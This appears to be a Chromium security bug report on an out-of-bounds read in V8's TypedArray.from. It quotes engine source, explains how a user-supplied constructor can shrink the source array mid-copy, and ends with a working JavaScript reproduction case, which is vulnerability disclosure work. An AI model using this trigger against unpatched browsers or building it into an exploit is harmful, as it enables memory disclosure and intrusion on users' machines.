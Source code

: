This is copied from the report in issue 835887:

OOB read in TypedArray.from
--------------------------------------------------------------------------------
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-typed-array-gen.cc?rcl=8ba3ef5fcd21c5e717a1b7bd0713612a287b9500&l=1705
 ES6 #sec-%typedarray%.from
TF_BUILTIN(TypedArrayFrom, TypedArrayBuiltinsAssembler) {
[...]
    TNode<JSArray> values = CAST(
        CallBuiltin(Builtins::kIterableToList, context, source, iterator_fn));

    // This is not a spec'd limit, so it doesn't particularly matter when we
    // throw the range error for typed array length > MaxSmi.
    TNode<Object> raw_length = LoadJSArrayLength(values);
    GotoIfNot(TaggedIsSmi(raw_length), &if_length_not_smi);

    final_length = CAST(raw_length);
    final_source = values;
    Goto(&create_typed_array);

    BIND(&if_length_not_smi);
    ThrowRangeError(context, MessageTemplate::kInvalidTypedArrayLength,
                    raw_length);
  }
[...]
  BIND(&create_typed_array);
  {
    // 7c/11. Let targetObj be ? TypedArrayCreate(C, «len»).
    target_obj = CreateByLength(context, receiver, final_length.value(),
                                "%TypedArray%.from");

    Branch(mapping.value(), &slow_path, &fast_path);
  }

  BIND(&fast_path);
  {
    Label done(this);
    GotoIf(SmiEqual(final_length.value(), SmiConstant(0)), &done);

    CallRuntime(Runtime::kTypedArrayCopyElements, context, target_obj.value(),
                final_source.value(), final_length.value());
    Goto(&done);

    BIND(&done);
    args.PopAndReturn(target_obj.value());
  }

https://cs.chromium.org/chromium/src/v8/src/elements.cc?rcl=8ba3ef5fcd21c5e717a1b7bd0713612a287b9500&l=3362
  static bool TryCopyElementsFastNumber(Context* context, JSArray* source,
                                        JSTypedArray* destination,
                                        size_t length, uint32_t offset) {
    if (Kind == BIGINT64_ELEMENTS || Kind == BIGUINT64_ELEMENTS) return false;
    Isolate* isolate = source->GetIsolate();
    DisallowHeapAllocation no_gc;
    DisallowJavascriptExecution no_js(isolate);

    ElementsKind kind = source->GetElementsKind();
    BackingStore* dest = BackingStore::cast(destination->elements());
[...]
    if (kind == PACKED_SMI_ELEMENTS) {
      FixedArray* source_store = FixedArray::cast(source->elements());

      for (uint32_t i = 0; i < length; i++) {
        Object* elem = source_store->get(i);
        DCHECK(elem->IsSmi());
        int int_value = Smi::ToInt(elem);
        dest->set(offset + i, dest->from(int_value));
      }
      return true;
[...]
--------------------------------------------------------------------------------

|TypedArrayFrom()| obtains the length of the |source| argument and then calls a user-defined function inside
|CreateByLength()|, which could shrink |source|. If |source| is a fast array, this may cause an OOB read later
in |TryCopyElementsFastNumber()| because it doesn't ensure |length| is still valid.

<b>REPRODUCTION CASE</b>
<script>
oobArray = [];
for (let i = 0; i < 1024 * 1024; ++i) {
  oobArray[i] = 1.1;
}
floatArray = new Float64Array(oobArray.length);
Float64Array.from.call(function(length) {
  oobArray.length = 0;
  return floatArray;
}, oobArray);
</script>
